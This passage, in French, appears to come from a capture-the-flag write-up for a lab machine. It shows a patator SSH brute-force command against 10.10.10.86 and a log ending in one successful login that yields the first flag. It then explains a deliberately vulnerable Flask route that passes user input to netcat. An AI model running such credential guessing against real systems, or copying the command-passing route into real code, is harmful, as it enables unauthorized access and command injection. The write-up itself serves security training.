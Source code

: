 ou en SSH :  

```plain
$ patator ssh_login user=COMBO00 password=COMBO01 0=combo.txt host=10.10.10.86 -t 1 --rate-limit=5
10:25:22 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-13 10:25 CET
10:25:22 patator    INFO -
10:25:22 patator    INFO - code  size    time | candidate                          |   num | mesg
10:25:22 patator    INFO - -----------------------------------------------------------------------------
10:25:30 patator    INFO - 1     22     2.135 | admin:Password1                    |     1 | Authentication failed.
10:25:38 patator    INFO - 1     22     2.756 | abbigail:piggy                     |     2 | Authentication failed.
10:25:45 patator    INFO - 1     22     1.536 | ona:monkeyman                      |     3 | Authentication failed.
10:25:52 patator    INFO - 1     22     2.358 | irma:strength                      |     4 | Authentication failed.
10:26:00 patator    INFO - 1     22     2.244 | alec:blaster                       |     5 | Authentication failed.
10:26:08 patator    INFO - 1     22     2.690 | wendell:megadeth                   |     6 | Authentication failed.
10:26:15 patator    INFO - 1     22     2.101 | aglae:misfits                      |     7 | Authentication failed.
10:26:22 patator    INFO - 1     22     2.108 | rick:lovesucks1                    |     8 | Authentication failed.
10:26:28 patator    INFO - 0     39     0.172 | genevieve:Princess1                |     9 | SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
10:26:36 patator    INFO - 1     22     2.514 | default:default                    |    10 | Authentication failed.
10:26:43 patator    INFO - 1     22     2.192 | d_murphy:hacktheplanet             |    11 | Authentication failed.
10:26:50 patator    INFO - 1     22     1.801 | demo:demo                          |    12 | Authentication failed.
10:26:51 patator    INFO - Hits/Done/Skip/Fail/Size: 12/12/0/0/12, Avg: 0 r/s, Time: 0h 1m 29s
```

Cet account nous permet de nous connecter en SSH et d'obtenir le premier flag :)  

Sous le capot
-------------

Même si ce n'est pas un passage obligatoire voici un peu d'explications sur le fonctionnement de ce CTF.  

En regardant la configuration du serveur web ont voit deux hôtes : *dev* (8080) et *prod* (80).  

Le code de la webapp est écrit en Python et au lieu d'utiliser le module socket il appelle un netcat (les habitués reconnaîtront la syntaxe de Flask) :  

```python
@app.route("/socket", methods=["GET"])
def socket_data():
    port = request.args.get("port", default="", type=int)
    cmd = request.args.get("cmd", default="", type=str)
    if not cmd or not port:
        error = "Missing parameters"
        return render_template("index.html", error=error)

    if port < 1 or port > 65535:
        error = "Invalid port"
        return render_template("index.html", error=error)

    if not validate_cmd(cmd):
        error = "Suspected hacking attempt detected"
        return render_template("index.html", error=error)

```